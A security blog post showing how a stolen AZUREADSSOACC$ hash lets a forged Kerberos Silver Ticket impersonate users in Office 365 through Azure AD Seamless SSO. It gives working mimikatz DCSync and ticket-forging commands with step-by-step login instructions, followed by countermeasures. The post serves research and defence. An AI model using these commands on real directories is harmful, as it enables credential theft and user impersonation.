


Last month, Microsoft has introduced a&nbsp;new feature of&nbsp;Azure AD Connect called [Single Sign On](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso). It&nbsp;allows companies to&nbsp;configure SSO between AD and&nbsp;AAD without the&nbsp;need to&nbsp;deploy [ADFS](https://learn.microsoft.com/en-us/windows-server/identity/active-directory-federation-services), which&nbsp;makes it&nbsp;an&nbsp;ideal solution for&nbsp;SMEs. Here is&nbsp;a&nbsp;high-level diagram of&nbsp;this&nbsp;functionality:



As we can&nbsp;see from&nbsp;the&nbsp;diagram above, Azure AD exposes a&nbsp;[publicly available endpoint](https://autologon.microsoftazuread-sso.com) that&nbsp;accepts Kerberos tickets and&nbsp;translates them into SAML and&nbsp;JWT tokens, which&nbsp;are&nbsp;understood and&nbsp;trusted by&nbsp;other cloud services like Office 365, Azure or&nbsp;Salesforce. And&nbsp;wherever&nbsp;you have Kerberos-based authentication, it&nbsp;can&nbsp;be&nbsp;attacked using [Silver Tickets](https://adsecurity.org/?p=2011).

In&nbsp;usual circumstances this&nbsp;attack can&nbsp;only be&nbsp;performed from&nbsp;the&nbsp;intranet. But&nbsp;what really caught my attention is&nbsp;the&nbsp;fact that&nbsp;with&nbsp;this&nbsp;new SSO feature, **Silver Tickets could be&nbsp;used from&nbsp;the&nbsp;entire internet**. Let’s give it&nbsp;a&nbsp;try then!

<!--more-->

## The&nbsp;Nasty Stuff

To&nbsp;test this&nbsp;technique, we need to&nbsp;retrieve some&nbsp;information from&nbsp;Active Directory first:

1. NTLM password hash of&nbsp;the&nbsp;[AZUREADSSOACC$](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#how-single-sign-on-works) account, e.g. *f9969e088b2c13d93833d0ce436c76dd*. This&nbsp;value can&nbsp;be&nbsp;retrieved from&nbsp;AD using [mimikatz](https://github.com/gentilkiwi/mimikatz):

    ```bat
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```

    My own [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) could do&nbsp;the&nbsp;same job:
    
    ```powershell
    Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso `
    -Server lon-dc1.contoso.local
    ```
    
    Both of&nbsp;these commands need *Domain Admins* permissions.

2. Name of&nbsp;the&nbsp;AD domain, e.g. *contoso.local*.
3. AAD logon name of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. elrond@contoso.com. This&nbsp;is&nbsp;typically either his&nbsp;*userPrincipalName* or&nbsp;*mail* attribute from&nbsp;the&nbsp;on-prem AD.
4. SID of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. *S-1-5-21-2121516926-2695913149-3163778339-1234*.

Having this&nbsp;information we can&nbsp;now&nbsp;create and&nbsp;use the&nbsp;Silver Ticket on any Windows computer connected to&nbsp;the&nbsp;internet. It&nbsp;does not even&nbsp;matter whether&nbsp;it&nbsp;is&nbsp;joined to&nbsp;a&nbsp;domain or&nbsp;a&nbsp;workgroup:

1. Create the&nbsp;Silver Ticket and&nbsp;inject it&nbsp;into Kerberos cache:

    ```bat
    mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
        
    

2. Launch *Mozilla Firefox*.
3. Go to&nbsp;`about:config` and&nbsp;set the&nbsp;[network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) preference to&nbsp;[value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) “https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com”.
4. Navigate to&nbsp;any web application that&nbsp;is&nbsp;integrated with&nbsp;our AAD domain. We will use [Office 365](https://portal.office.com), which&nbsp;is&nbsp;the&nbsp;most commonly used one.
5. Once&nbsp;at the&nbsp;logon screen, fill in&nbsp;the&nbsp;user name, while&nbsp;leaving the&nbsp;password field empty. Then press TAB or&nbsp;ENTER.

    

6. That’s it, we’re in!

    

7. To&nbsp;log in&nbsp;as&nbsp;another user, run the&nbsp;command below and&nbsp;repeat steps 1-6.

    ```bat
    klist purge
    ```

It is&nbsp;also worth noting that&nbsp;the&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC$* account never changes, so&nbsp;the&nbsp;stolen hash/key will work forever. It&nbsp;could therefore be&nbsp;misused by&nbsp;highly privileged employees to&nbsp;retain access to&nbsp;the&nbsp;IT&nbsp;environment after&nbsp;leaving the&nbsp;company. Dealing with&nbsp;such situations is&nbsp;a&nbsp;much broader problem, which&nbsp;is&nbsp;aptly depicted by&nbsp;the&nbsp;following old Narnian saying:


## Countermeasures

First of&nbsp;all, I&nbsp;have to&nbsp;point out that&nbsp;this&nbsp;technique would not be&nbsp;very practical in&nbsp;real-world situations due to&nbsp;these reasons:

- The&nbsp;SSO feature is&nbsp;in&nbsp;Preview and&nbsp;has to&nbsp;be&nbsp;explicitly enabled by&nbsp;an&nbsp;AD admin. Just a&nbsp;handful of&nbsp;companies probably use it&nbsp;at the&nbsp;time of&nbsp;writing this&nbsp;article and&nbsp;enterprises will quite surely stick to&nbsp;their proven ADFS deployments even&nbsp;after&nbsp;this&nbsp;feature reaches GA.
- The&nbsp;hash/key of&nbsp;the&nbsp;*AZUREADSSOACC$* account can&nbsp;only be&nbsp;retrieved by&nbsp;Domain Admins from&nbsp;DCs by&nbsp;default. But&nbsp;if&nbsp;an&nbsp;attacker had such highly privileged access to&nbsp;an&nbsp;Active Directory domain, he/she would be&nbsp;able to&nbsp;do&nbsp;some&nbsp;way nastier stuff than&nbsp;just replicating a&nbsp;single hash.
- The&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC$* account is&nbsp;randomly generated during the&nbsp;deployment of&nbsp;*Azure AD Connect*. It&nbsp;would therefore be&nbsp;impossible to&nbsp;guess this&nbsp;password.

As&nbsp;you can&nbsp;see, there is&nbsp;simply no need to&nbsp;panic. But&nbsp;just to&nbsp;be&nbsp;safe, I&nbsp;would recommend these generic security measures:

- Only delegate administrative access to&nbsp;trusted individuals and&nbsp;keep the&nbsp;number of&nbsp;members of&nbsp;the&nbsp;*Domain Admins* group (and other privileged groups) as&nbsp;low as&nbsp;possible.
- Protect backups of&nbsp;Domain Controllers, so&nbsp;no-one could [extract sensitive information](/en/dumping-ntds-dit-files-using-powershell/) from&nbsp;them.
- Enable and&nbsp;enforce [Azure MFA](https://docs.microsoft.com/en-us/azure/multi-factor-authentication/multi-factor-authentication) for&nbsp;users authenticating from&nbsp;external IP addresses. It&nbsp;is&nbsp;very straightforward and&nbsp;effective against many kinds of&nbsp;attacks.
- Consider implementing [Azure AD conditional access](https://docs.microsoft.com/cs-cz/azure/active-directory/active-directory-conditional-access).
- Deploy [Microsoft Defender for&nbsp;Identity](https://www.microsoft.com/en-us/cloud-platform/advanced-threat-analytics) to&nbsp;detect malicious replication and&nbsp;other threats to&nbsp;your AD infrastructure.  
- Force a&nbsp;password change on the&nbsp;*AZUREADSSOACC$* account by&nbsp;<del>re-deploying Azure AD Connect SSO</del> [running the&nbsp;Update-AzureSSOForest cmdlet](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso-faq#how-can-i-roll-over-the-kerberos-decryption-key-of-the-azureadssoacc-computer-account) after&nbsp;a&nbsp;highly privileged employee leaves the&nbsp;company and/or on a&nbsp;regular basis. This&nbsp;should be&nbsp;done together with&nbsp;resetting the&nbsp;password of&nbsp;*krbtgt* and&nbsp;other sensitive accounts.

## Conclusion

Although&nbsp;the&nbsp;Silver Ticket attack has been here for&nbsp;some&nbsp;years, it&nbsp;is&nbsp;now&nbsp;probably the&nbsp;first time it&nbsp;can&nbsp;be&nbsp;used over the&nbsp;internet against a&nbsp;cloud service, which&nbsp;theoretically makes it&nbsp;even&nbsp;more potent. On the&nbsp;other hand, it&nbsp;would be&nbsp;quite hard to  perform this&nbsp;technique in&nbsp;a&nbsp;real-world environment due to&nbsp;impracticalities discussed in&nbsp;the&nbsp;previous section, so&nbsp;there is&nbsp;no need to&nbsp;worry. The&nbsp;new Seamless SSO feature of&nbsp;Azure AD Connect can&nbsp;therefore be&nbsp;considered safe and&nbsp;preferred solution for&nbsp;SSO to&nbsp;Office 365.
